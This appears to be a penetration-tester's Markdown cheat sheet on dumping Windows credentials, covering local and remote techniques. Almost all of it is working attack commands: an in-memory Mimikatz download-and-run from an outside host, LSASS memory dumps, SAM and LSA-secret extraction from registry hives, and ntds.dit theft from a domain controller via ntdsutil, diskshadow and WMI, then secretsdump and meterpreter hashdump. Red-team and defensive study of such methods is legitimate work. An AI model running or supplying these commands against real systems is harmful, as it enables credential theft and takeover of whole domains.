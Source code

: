 ```yaml
---
title: "Dumping credentials"
date: 2020-07-16T13:41:37+02:00
draft: true
---
```

Jump to:
  * [Local](#local)
  * [Remote](#remote)

## Local
Ways of dumping the lsass.exe process locally
***

#### Using in-memory Mimikatz using PowerShell (Work Out)
```powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
***

#### LSASS using Task manager
Right click on a the lsass.exe process and select 'Create Dump File'. This will require administrative rights. Hashes can now be dumped using Mimikatz.
```
sekurlsa::minidump <lsass.DMP locations>
sekurlsa::logonpasswords
```
***

#### LSASS using Procdump
```
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
***

#### LSASS using (native) comsvcs.dll
```
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```
***

#### LSASS using the MiniDumpWriteDump API
Reference: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass
***

#### SAM using samdump2
Samdump2 is available for both Windows and Linux (Included in Kali). To decrypt the SAM you'll need the SYSTEM hive. When booted from an external medium you can extract both the SAM and SYSTEM file from 'C:\Windows\System32\Config\'. On Windows you can save it to a file using 'reg save':
```
reg save hklm\system system
reg save hklm\sam sam
```
Now you can use samdump2 to decrypt the SAM.
```
samdump2 system sam
```
***

#### LSA Secrets using Mimikatz
LSA Secrets are stored in the registry ('HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets'). You can directly extract them using Mimikatz.
```
token::elevate
lsadump::secrets
```
Or you can retrieve the SYSTEM- and SECURITY-file and dump the credentials after the fact.
```
reg save HKLM\SYSTEM system
reg save HKLM\security security
```
```
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```
***

#### Cached Domain Credentials using mimikatz
```
lsadump::cache
```
***

#### Hashes directly from a domain controller using ntdsutil (lolbin)
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
The hashes can be dumped offline using secretsdump.py
```
secretsdump.py -system SYSTEM -security SECURITY -ntds ntds.dit local
```
***

#### Hashes using diskshadow
Put the following commands in a .txt file.
```
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset
```
And execute the following commands
```
mkdir c:\exfil
diskshadow.exe /s C:\users\Administrator\Desktop\shadow.txt
cmd.exe /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
```
The ntds.dit will be actracted and placed in the C:\exfil folder. Execute the following commands to perform cleanup.
```
diskshadow.exe
    > delete shadows volume trophy
    > reset
```
***

## Remote
***

#### Cached Domain Credentials using meterpreter
The 'hashdump' command in meterpreter will dump the local SAM account hashes.
```
hashdump
```
To dump cached domain credentials in the mscach format the 'cachedump' module can be used.
```
getsystem
use post/windows/gather/cachedump
run
```
The output will be in the 'mscache'-format.
***

#### Cached Domain Credentials using secretsdump

Obtain the SAM, SECURITY and SYSTEM hive. Either trough booting from an external medium or using reg.exe.
```
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save
```

After obtaining the hashes can be dumped using secretsdump from impacket.
```
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
***

#### Domain controller hashes shadow copy over WMI

Creat a shadow copy of the C drive.
```powershell
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c vssadmin create shadow /for=C: 2>&1"
```
Copy the ntds.dit, SYSTEM and SECURITY hives to C:\temp on the remote machine
```powershell
wmic /node:dc01 /user:administrator@offense /password:123456 process call create "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM c:\temp\ & copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY c:\temp\"
```
Mount the remote C:\temp directoy to your local machine
```
net use j: \\dc01\c$\temp /user:administrator 123456; dir j:\
```
Now you can run secretsdump to dump the hashes (as shown in previous examples)